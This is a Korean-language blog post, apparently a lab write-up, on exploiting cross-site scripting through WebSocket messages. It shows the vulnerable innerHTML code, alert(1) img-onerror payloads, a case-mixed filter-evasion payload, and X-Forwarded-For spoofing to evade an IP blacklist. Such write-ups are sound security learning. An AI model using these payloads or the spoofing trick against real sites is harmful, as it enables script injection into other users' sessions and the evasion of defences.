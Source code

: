 ```yaml
---
title: apache server setting
description: 
author: doxawahebi
date: 2025-02-25 15:39:00 +0900
categories: [web]
tags: [web, websocket, xss]     # TAG names should always be lowercase
pin: false
math: false
mermaid: false
---
```


## Manipulating WebSocket messages to exploit vulnerabilitie
---
메세지를 전송할 때 html encode 처리가 있기 때문에 메시지를 intercept한 후 XSS 페이로드를 보내야한다.
```js
function sendMessage(data) {
	var object = {};
	data.forEach(function (value, key) {
		object[key] = htmlEncode(value);
	});

	openWebSocket().then(ws => ws.send(JSON.stringify(object)));
}

function htmlEncode(str) {
	if (chatForm.getAttribute("encode")) {
		return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
			var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
			return lookup[c];
		});
	}
	return str;
}
```

다음 함수에서 `innerHTML` 때문에 XSS가 발생하는 것을 알 수 있다.
```js
    function writeMessage(className, user, content) {
        var row = document.createElement("tr");
        row.className = className

        var userCell = document.createElement("th");
        var contentCell = document.createElement("td");
        userCell.innerHTML = user;
        contentCell.innerHTML = (typeof window.renderChatMessage === "function") ? window.renderChatMessage(content) : content;

        row.appendChild(userCell);
        row.appendChild(contentCell);
        document.getElementById("chat-area").appendChild(row);
    }
```

intercept 후 다음과 같이 수정하면 XSS가 발생한다.
```json
{"message":"<img src=1 onerror=alert(1)>"}
```

## Manipulating the WebSocket handshake to exploit vulnerabilities
---
이 랩을 해결하는 방법은 지난 랩과 비슷하다. 
약간의 차이점은 블랙리스트 기능이 있다는 것이다.

해당 페이로드를 websocket을 통해 보내면 나의 IP는 차단된다. 서버에서 설정한 XSS filter에 의해 블랙리스트로 차단된다.
```html
<img src=1 onerror='alert(1)'>
```

request 헤더 부분에 `X-Forwarded-For: 1.1.1.1`를 추가하면 나의 IP를 속이고 XSS를 계속 수행할 수 있다.

다음과 같은 페이로드를 웹소켓으로 보내면 문제가 해결된다.
```html
<img src=1 oNeRrOr=alert`1`>
```


